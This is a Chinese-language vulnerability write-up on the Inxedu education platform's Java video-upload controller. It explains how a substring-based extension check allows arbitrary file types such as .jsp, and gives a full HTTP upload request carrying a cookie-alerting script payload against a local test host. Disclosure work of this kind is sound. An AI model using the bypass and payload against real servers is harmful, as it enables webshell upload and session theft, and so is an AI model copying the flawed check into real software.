


### 相关漏洞

#### 任意文件上传

\src\main\java\com\inxedu\os\common\controller\VideoUploadController.java

```java
	/**
	 * 视频上传
	 */
	@RequestMapping(value="/uploadvideo",method={RequestMethod.POST})
	public String gok4(HttpServletRequest request,HttpServletResponse response,@RequestParam(value="uploadfile" ,required=true) MultipartFile uploadfile,
			@RequestParam(value="param",required=false) String param,
			@RequestParam(value="fileType",required=true) String fileType){
		try{

			String[] type = fileType.split(",");
			//设置图片类型
			setFileTypeList(type);
			//获取上传文件类型的扩展名,先得到.的位置，再截取从.的下一个位置到文件的最后，最后得到扩展名
			String ext = FileUploadUtils.getSuffix(uploadfile.getOriginalFilename());
			if(!fileType.contains(ext)){
				return responseErrorData(response,1,"文件格式错误，上传失败。");
			}
			//获取文件路径
			String filePath = getPath(request,ext,param);
			File file = new File(getProjectRootDirPath(request)+filePath);

			//如果目录不存在，则创建
			if(!file.getParentFile().exists()){
				file.getParentFile().mkdirs();
			}
			//保存文件
			uploadfile.transferTo(file);
			//返回数据

			return responseData(filePath,0,"上传成功",response);
		}catch (Exception e) {
			logger.error("gok4()--error",e);
			return responseErrorData(response,2,"系统繁忙，上传失败");
		}
	}
```

漏洞点

```java
if(!fileType.contains(ext)){...}
```

代码翻译：

只要参数filetype中包含上传文件的后缀即可，如：

- 文件名：xxx.jsp
- filetype: ssfjspssss
  - 上传结果：成功

如图：



#### 文件上传(受限)


```
POST /inxedu_war/image/gok4?fileType=html HTTP/1.1
Host: 127.0.0.1:9999
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------37391825482350680435279262019
Content-Length: 260
Origin: http://127.0.0.1:9999
DNT: 1
Connection: close
Referer: http://127.0.0.1:9999/inxedu_war/uc/initUpdateUser/0
Cookie: JSESSIONID=14B18EC87EE756AFDF8DB6D19F7C6CF6; inxeduweb_user_login_=6e32a4cf67f84f339e70c947cd9e65e7
Upgrade-Insecure-Requests: 1

-----------------------------37391825482350680435279262019
Content-Disposition: form-data; name="uploadfile"; filename="x.html"
Content-Type: image/png

<script>alert(document.cookie)</script>
-----------------------------37391825482350680435279262019--
```




